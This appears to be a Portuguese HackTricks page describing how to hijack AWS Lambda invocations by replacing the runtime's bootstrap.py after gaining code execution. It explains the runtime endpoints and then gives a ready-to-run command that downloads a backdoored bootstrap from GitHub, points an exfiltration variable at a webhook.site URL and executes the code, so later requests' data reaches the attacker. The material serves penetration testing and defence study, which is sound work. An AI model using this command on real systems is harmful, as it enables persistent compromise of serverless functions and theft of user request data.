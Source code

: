 # AWS - Roubar Requisições Lambda

{{#include ../../../../banners/hacktricks-training.md}}

## Fluxo Lambda

<figure><img src="../../../../images/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** é um processo fora do contêiner que **envia** **invocações** para o processo **init**.
2. O processo init escuta na porta **9001** expondo alguns endpoints interessantes:
- **`/2018-06-01/runtime/invocation/next`** – obter o próximo evento de invocação
- **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – retornar a resposta do manipulador para a invocação
- **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – retornar um erro de execução
3. **bootstrap.py** tem um loop obtendo invocações do processo init e chama o código do usuário para manipulá-las (**`/next`**).
4. Finalmente, **bootstrap.py** envia para init a **resposta**

Note que o bootstrap carrega o código do usuário como um módulo, então qualquer execução de código realizada pelo código do usuário está realmente acontecendo neste processo.

## Roubo de Requisições Lambda

O objetivo deste ataque é fazer com que o código do usuário execute um processo malicioso **`bootstrap.py`** dentro do processo **`bootstrap.py`** que manipula a requisição vulnerável. Dessa forma, o processo **bootstrap malicioso** começará a **comunicar-se com o processo init** para manipular as requisições enquanto o bootstrap **legítimo** está **preso** executando o malicioso, de modo que não pedirá requisições ao processo init.

Esta é uma tarefa simples de alcançar, pois o código do usuário está sendo executado pelo legítimo processo **`bootstrap.py`**. Assim, o atacante poderia:

- **Enviar um resultado falso da invocação atual para o processo init**, para que o init pense que o processo bootstrap está aguardando mais invocações.
- Uma requisição deve ser enviada para **`/${invoke-id}/response`**
- O invoke-id pode ser obtido da pilha do legítimo processo **`bootstrap.py`** usando o módulo python [**inspect**](https://docs.python.org/3/library/inspect.html) (como [proposto aqui](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch_runtime.py)) ou apenas solicitando-o novamente para **`/2018-06-01/runtime/invocation/next`** (como [proposto aqui](https://github.com/Djkusik/serverless_persistency_poc/blob/master/gcp/exploit_files/switcher.py)).
- Executar um **`boostrap.py`** malicioso que irá manipular as próximas invocações
- Para fins de furtividade, é possível enviar os parâmetros das invocações lambda para um C2 controlado pelo atacante e então manipular as requisições como de costume.
- Para este ataque, é suficiente obter o código original de **`bootstrap.py`** do sistema ou [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), adicionar o código malicioso e executá-lo a partir da invocação lambda atual.

### Passos do Ataque

1. Encontrar uma vulnerabilidade **RCE**.
2. Gerar um **bootstrap** **malicioso** (por exemplo, [https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py))
3. **Executar** o bootstrap malicioso.

Você pode facilmente realizar essas ações executando:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Para mais informações, consulte [https://github.com/carlospolop/lambda_bootstrap_switcher](https://github.com/carlospolop/lambda_bootstrap_switcher)

## Referências

- [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{{#include ../../../../banners/hacktricks-training.md}}
